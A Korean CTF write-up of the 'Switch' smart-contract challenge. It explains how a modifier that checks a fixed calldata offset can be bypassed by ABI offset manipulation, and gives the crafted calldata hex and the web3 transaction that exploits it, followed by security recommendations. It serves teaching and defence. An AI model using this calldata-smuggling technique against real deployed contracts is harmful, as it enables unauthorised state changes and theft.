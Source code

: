# Switch Challenge Writeup

## 문제 개요

-   **목표**: Switch 컨트랙트의 `switchOn` 변수를 `true`로 만들기\
-   **난이도**: Medium-Hard\
-   **핵심 개념**: ABI 인코딩, Calldata 조작, 동적 데이터 타입

## 컨트랙트 분석

### 주요 구성 요소

``` solidity
contract Switch {
    bool public switchOn; // 초기값: false
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        bytes32[1] memory selector;
        assembly {
            calldatacopy(selector, 68, 4) // calldata 68번째 위치에서 4바이트 읽기
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```

### 함수 분석

-   **turnSwitchOn()**: 스위치를 켜는 함수 (`onlyThis` 보호)\
-   **turnSwitchOff()**: 스위치를 끄는 함수 (`onlyThis` 보호)\
-   **flipSwitch()**: 임의의 데이터로 내부 호출 수행 (`onlyOff` 보호)

------------------------------------------------------------------------

## 보안 메커니즘

-   `onlyThis` 모디파이어: 컨트랙트 자신만
    `turnSwitchOn()/turnSwitchOff()` 호출 가능\
-   `onlyOff` 모디파이어: calldata의 68번째 위치에서 `turnSwitchOff()`
    셀렉터 확인

------------------------------------------------------------------------

## 취약점 발견

핵심 취약점: **ABI 인코딩 vs 고정 위치 검증**

``` solidity
assembly {
    calldatacopy(selector, 68, 4)
}
```

문제: `flipSwitch(bytes memory _data)`에서 실제 사용되는 데이터는 동적
위치에 저장됨.

------------------------------------------------------------------------

## ABI 인코딩 구조 이해

`flipSwitch(bytes memory _data)` 호출 시 calldata 구조:

-   0-3: 함수 셀렉터 (flipSwitch)\
-   4-35: `_data` 파라미터의 오프셋\
-   36-67: 패딩\
-   68-71: ← onlyOff가 체크하는 위치\
-   offset: 실제 bytes 데이터 시작 위치\
-   offset+32: 데이터 길이\
-   offset+36: 실제 데이터 내용

------------------------------------------------------------------------

## 익스플로잇 개발

### 공격 아이디어

1.  68번째 위치: `turnSwitchOff()` 셀렉터 배치 → 모디파이어 통과\
2.  동적 위치: `turnSwitchOn()` 셀렉터 배치 → 실제 실행

### 함수 셀렉터 계산

``` javascript
const turnSwitchOnSelector = web3.utils.keccak256("turnSwitchOn()").slice(0, 10); // 0x76227e12
const turnSwitchOffSelector = web3.utils.keccak256("turnSwitchOff()").slice(0, 10); // 0x20606e15
const flipSwitchSelector = web3.utils.keccak256("flipSwitch(bytes)").slice(0, 10); // 0x30c13ade
```

### 악의적인 Calldata 구성

  위치      데이터      설명
  --------- ----------- -------------------------------------
  0-3       30c13ade    flipSwitch 셀렉터
  4-35      000...060   오프셋: 96
  36-67     000...000   패딩
  68-71     20606e15    turnSwitchOff 셀렉터 (모디파이어용)
  72-95     000...000   패딩
  96-127    000...004   데이터 길이: 4
  128-131   76227e12    turnSwitchOn 셀렉터
  132-159   000...000   패딩

최종 Calldata:

``` javascript
const maliciousData = "0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000";
```

------------------------------------------------------------------------

### 공격 실행

1단계: 트랜잭션 전송

``` javascript
await web3.eth.sendTransaction({
    from: player,
    to: contract.address, 
    data: maliciousData,
    gas: 200000
});
```

2단계: 결과 확인

``` javascript
const result = await contract.switchOn();
console.log(result); // true
```

------------------------------------------------------------------------

## 공격 성공 원리

1.  `flipSwitch()` 호출 → 악의적인 calldata 사용\
2.  `onlyOff` 모디파이어 → 68번째 위치에서 `turnSwitchOff()` 검증 후
    통과\
3.  `address(this).call(_data)` → 동적 영역에서 `turnSwitchOn()` 실행\
4.  내부 호출이므로 `msg.sender == address(this)` 조건 충족\
5.  최종적으로 `switchOn = true`

------------------------------------------------------------------------

## 핵심 포인트

-   **이중 데이터 배치**: 같은 calldata에 두 개의 서로 다른 함수 셀렉터
    배치\
-   **오프셋 조작**: ABI 인코딩의 동적 특성 악용\
-   **모디파이어 우회**: 고정 위치 검증 한계를 악용

------------------------------------------------------------------------

## 교훈 및 보안 권고사항

### 취약점의 근본 원인

-   고정 위치 의존성 → 동적 데이터 처리에 부적합\
-   불완전한 입력 검증 → calldata 전체 검증 부족\
-   ABI 인코딩 복잡성 → 개발자 이해 부족

### 보안 개선 방안

1.  **전체 calldata 해시 검증**\
2.  **화이트리스트 접근** → 허용된 함수 셀렉터만 호출 가능\
3.  **동적 검증**: calldata 파싱 후 실제 함수 셀렉터 추출 검증

``` solidity
modifier onlyOffImproved(bytes memory _data) {
    bytes4 selector;
    assembly {
        selector := mload(add(_data, 0x20))
    }
    require(selector == offSelector, "Invalid function");
    _;
}
```

------------------------------------------------------------------------

## 결론

이 문제는 **ABI 인코딩 메커니즘과 calldata 구조에 대한 이해**를 요구하는
고난도 문제였다.

### 핵심 학습 포인트

-   ABI 인코딩에서 동적 데이터 처리 방식\
-   고정 위치 검증의 한계\
-   스마트 컨트랙트 보안에서 입력 검증의 중요성

성공적인 해결을 통해 Ethereum 스마트 컨트랙트의 저수준 동작 원리와 보안
취약점 이해를 크게 향상시킬 수 있었다.
